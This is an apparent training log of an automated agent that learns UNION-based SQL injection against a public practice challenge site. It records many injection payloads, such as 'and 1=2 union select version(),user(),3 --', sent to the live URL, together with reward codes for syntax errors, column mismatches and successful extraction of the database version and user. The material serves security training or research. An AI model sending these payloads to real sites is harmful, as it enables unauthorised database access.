https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respo

  0%|          | 2330/1000000 [13:33:11<33590:05:02, 121.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 uni

  0%|          | 2331/1000000 [13:33:21<24328:57:03, 87.79s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2332/1000000 [13:33:22<17093:56:35, 61.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2333/1000000 [13:33:23<12027:59:28, 43.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2334/1000000 [13:33:24<8489:06:53, 30.63s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2335/1000000 [13:33:24<6003:02:47, 21.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2336/1000000 [13:33:26<4336:29:25, 15.65s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2337/1000000 [13:33:27<3103:18:13, 11.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2338/1000000 [13:33:28<2242:59:55,  8.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2339/1000000 [13:33:29<1703:19:19,  6.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2340/1000000 [13:33:31<1355:00:19,  4.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2341/1000000 [13:33:32<1008:16:30,  3.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2342/1000000 [13:33:34<919:21:22,  3.32s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2343/1000000 [13:33:35<710:23:15,  2.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2344/1000000 [13:33:37<640:13:25,  2.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2345/1000000 [13:33:38<512:01:12,  1.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax erro

  0%|          | 2346/1000000 [13:34:27<4470:40:31, 16.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2347/1000000 [13:34:31<3450:47:53, 12.45s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2348/1000000 [13:34:33<2544:09:56,  9.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2349/1000000 [13:34:33<1850:00:05,  6.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 un

  0%|          | 2350/1000000 [13:34:49<2561:14:34,  9.24s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2351/1000000 [13:34:50<1861:13:23,  6.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2352/1000000 [13:34:50<1365:05:29,  4.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2353/1000000 [13:34:51<1023:30:47,  3.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.al

  0%|          | 2354/1000000 [13:34:56<1106:19:30,  3.99s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2355/1000000 [13:34:57<839:29:25,  3.03s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2356/1000000 [13:34:57<656:24:41,  2.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2357/1000000 [13:34:58<521:38:33,  1.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --

  0%|          | 2358/1000000 [13:36:17<6943:54:06, 25.06s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2359/1000000 [13:36:20<5074:32:46, 18.31s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number 

  0%|          | 2360/1000000 [13:36:46<5711:21:53, 20.61s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.alterv

  0%|          | 2361/1000000 [13:37:13<6270:32:12, 22.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2362/1000000 [13:37:14<4449:54:10, 16.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
http

  0%|          | 2363/1000000 [13:37:50<6158:39:30, 22.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2364/1000000 [13:37:51<4379:34:13, 15.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2365/1000000 [13:37:52<3126:08:41, 11.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2366/1000000 [13:37:53<2252:14:40,  8.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2367/1000000 [13:37:54<1643:25:49,  5.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respo

  0%|          | 2368/1000000 [13:40:01<11760:37:45, 42.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server

  0%|          | 2369/1000000 [13:40:25<10207:10:56, 36.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2370/1000000 [13:40:25<7176:37:06, 25.90s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2371/1000000 [13:40:26<5092:41:41, 18.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2372/1000000 [13:40:28<3692:01:14, 13.32s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2373/1000000 [13:40:29<2647:38:02,  9.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2374/1000000 [13:40:29<1913:57:51,  6.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2375/1000000 [13:40:30<1406:24:21,  5.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2376/1000000 [13:40:31<1047:21:26,  3.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2377/1000000 [13:40:32<802:40:59,  2.90s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax err

  0%|          | 2378/1000000 [13:42:02<8065:13:12, 29.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select 

  0%|          | 2379/1000000 [13:46:32<28131:54:58, 101.52s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2380/1000000 [13:46:33<19755:50:49, 71.29s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2381/1000000 [13:46:36<14041:25:00, 50.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2382/1000000 [13:46:38<9997:50:13, 36.08s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2383/1000000 [13:46:38<7058:43:07, 25.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2384/1000000 [13:46:42<5261:10:41, 18.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2385/1000000 [13:46:45<3891:25:42, 14.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2386/1000000 [13:46:46<2783:33:14, 10.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2387/1000000 [13:46:46<2019:17:35,  7.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2388/1000000 [13:46:47<1483:57:38,  5.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Serv

  0%|          | 2389/1000000 [13:49:06<12551:46:50, 45.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2390/1000000 [13:49:09<9080:30:00, 32.77s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2391/1000000 [13:49:10<6415:12:50, 23.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2392/1000000 [13:49:11<4553:55:42, 16.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respons

  0%|          | 2393/1000000 [13:49:36<5268:13:30, 19.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2394/1000000 [13:49:37<3762:52:48, 13.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3


  0%|          | 2395/1000000 [13:51:43<13153:31:40, 47.47s/it]

